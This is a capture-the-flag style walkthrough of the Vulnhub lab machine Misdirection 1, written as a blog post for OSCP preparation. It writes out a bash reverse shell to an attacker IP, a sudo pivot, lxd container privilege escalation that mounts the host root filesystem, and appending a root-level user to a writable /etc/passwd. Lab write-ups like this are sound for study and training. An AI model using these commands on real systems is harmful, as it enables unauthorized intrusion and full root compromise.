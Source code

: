 +++
title = "Vulnub: Misdirection 1"
date = "2021-04-21"
author = ""
authorTwitter = "" #do not include @
cover = ""
tags = ["Beginner", "Vulnhub", "OSCP Prep", "Sudo", "lxd", "Writeable Passwd"]
keywords = ["", ""]
description = ""
showFullContent = false
draft = false
images = ["/img/misdirection1/misdirection.png"]
+++

<!--more-->
{{< image src="/img/misdirection1/misdirection.png" alt="" position="center" style="border-radius: 8px;" >}}

| Difficulty | Release Date | Author |
| ---------- | ------------ | ------ |
| Beginner | 24 Sep 2019 | FalconSpy | 

## Summary

For this box, initial access was a web shell discovered. Then with low priv shell we could run bash as brexit user
and were able to pivot to that account. Once we are brexit user, we abuse his membership to the lxd to start a 
privileged container that can read and write the whole file system by mounting it in the container.

## Reconnaissance

Nmap

```sh
Nmap scan report for 192.168.191.136
Host is up (0.00032s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Rocket httpd 1.2.6 (Python 2.7.15rc1)
3306/tcp open  mysql   MySQL (unauthorized)
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```
## Enumeration

### 8080 (HTTP)

Nmap

```sh
# Nmap 7.91 scan initiated Wed Apr 14 06:31:44 2021 as: nmap -n -Pn -sV -p 8080 --script default,http-enum,http-shellshock,http-backup-finder,http-config-backup --append-output -oN recon-misdirection1/misdirection1-8080-httpnmap.enum 192.168.191.136
Nmap scan report for 192.168.191.136
Host is up (0.00026s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-enum:
|   /wordpress/: Blog
|   /wordpress/wp-login.php: Wordpress login page.
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /debug/: Potentially interesting folder
|   /development/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /help/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /manual/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|_  /scripts/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

ffuf

```sh
ffuf -ic -c -u http://192.168.191.136:8080/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt -t 50 
```

```sh
js                      [Status: 301, Size: 322, Words: 20, Lines: 10]
help                    [Status: 301, Size: 324, Words: 20, Lines: 10]
wordpress               [Status: 301, Size: 329, Words: 20, Lines: 10]
manual                  [Status: 301, Size: 326, Words: 20, Lines: 10]
debug                   [Status: 301, Size: 325, Words: 20, Lines: 10]
development             [Status: 301, Size: 331, Words: 20, Lines: 10]
shell                   [Status: 301, Size: 325, Words: 20, Lines: 10]
images                  [Status: 301, Size: 326, Words: 20, Lines: 10]
css                     [Status: 301, Size: 323, Words: 20, Lines: 10]
scripts                 [Status: 301, Size: 327, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 305, Words: 22, Lines: 12]
                        [Status: 200, Size: 10918, Words: 3499, Lines: 376]
```

After some directory bruteforcing on both port 80 and 8080 I discovered several directories. On port 8080 the debug directory
contains a web shell.

{{< image src="/img/misdirection1/misdirection-1.png" alt="" position="center" style="border-radius: 8px;" >}}

## Shell as www-data

Supplying the following command we are able to get a reverse shell.

```sh
bash -c 'bash -i >& /dev/tcp/192.168.191.1/9000 0>&1 &'
```
shell:

{{< image src="/img/misdirection1/misdirection-2.png" alt="" position="center" style="border-radius: 8px;" >}}

After some basic enumeration we discover www-data has sudo permissions to run /bin/bash as brexit user without
any password requirement.

{{< image src="/img/misdirection1/misdirection-3.png" alt="" position="center" style="border-radius: 8px;" >}}

## Shell as brexit

```sh
sudo -u brexit /bin/bash
```

{{< image src="/img/misdirection1/misdirection-4.png" alt="" position="center" style="border-radius: 8px;" >}}

On running id we see that brexit is in the lxd group and no images are present.

{{< image src="/img/misdirection1/misdirection-10.png" alt="" position="center" style="border-radius: 8px;" >}}

## Shell as root

Brexit being in the lxd group allows for privilege escalation. First we need to add am image then create a container.

First we need to get distrobuilder, the compile it. This uses go to compile therefore you need go to be installed.

```sh
wget https://github.com/lxc/distrobuilder/archive/refs/tags/distrobuilder-1.2.zip
7z x distrobuilder-1.2.zip
cd distrobuilder-distrobuilder-1.2 
make
```

You can use go get as the repo instructions recommend but for me it didn't work as expected.

With distrobuilder ready, download the alpine image yaml file to build a small alpine image for lxd

```sh
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
```
Then run distrobuilder with the alpine yaml file as below.

```sh
sudo ~/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.8
```
This will result in two files: lxd.tar.xz and rootfs.squashfs.

We then need to transfer this two files to our victim for privesc.

```sh
# on kali

python3 -m http.server

# on victim

wget 192.168.191.1:8000/lxd.tar.xz
wget 192.168.191.1:8000/rootfs.squashfs
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
lxc image list
```

{{< image src="/img/misdirection1/misdirection-5.png" alt="" position="center" style="border-radius: 8px;" >}}

After adding the image we need to run lxd init and can keep everything default.

```sh
lxd init
```

{{< image src="/img/misdirection1/misdirection-7.png" alt="" position="center" style="border-radius: 8px;" >}}

Then create the container to be privileged and mount the host os file system inside it.

```sh
lxc init alpine privesc -c security.privileged=true
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
lxc start privesc
lxc exec privesc /bin/sh
```
With this we can read the host file system from inside the container and can read root.txt.

{{< image src="/img/misdirection1/misdirection-8.png" alt="" position="center" style="border-radius: 8px;" >}}

To get shell as root I added a public key to authorized_keys of the root user and can ssh in as root.

{{< image src="/img/misdirection1/misdirection-9.png" alt="" position="center" style="border-radius: 8px;" >}}

## Extras

After looking at other writeups, there was another easy privesc that I didn't explore.

- Writeable /etc/passwd file

The passwd file is writeable by the users in the brexit group.

{{< image src="/img/misdirection1/misdirection-11.png" alt="" position="center" style="border-radius: 8px;" >}}

We can add user with id 0 that will give us root privileges.

```sh
openssl passwd -1 -salt user password123

echo 'user:$1$user$nY3qj2koDQU1.5HG4ZTj9/:0:0:User:/root:/bin/bash' >>/etc/passwd
```

{{< image src="/img/misdirection1/misdirection-12.png" alt="" position="center" style="border-radius: 8px;" >}}

## References

```
https://rioasmara.com/2021/01/29/privilege-escalation-with-lxd/

https://www.hackingarticles.in/lxd-privilege-escalation/

https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-etc-passwd
```
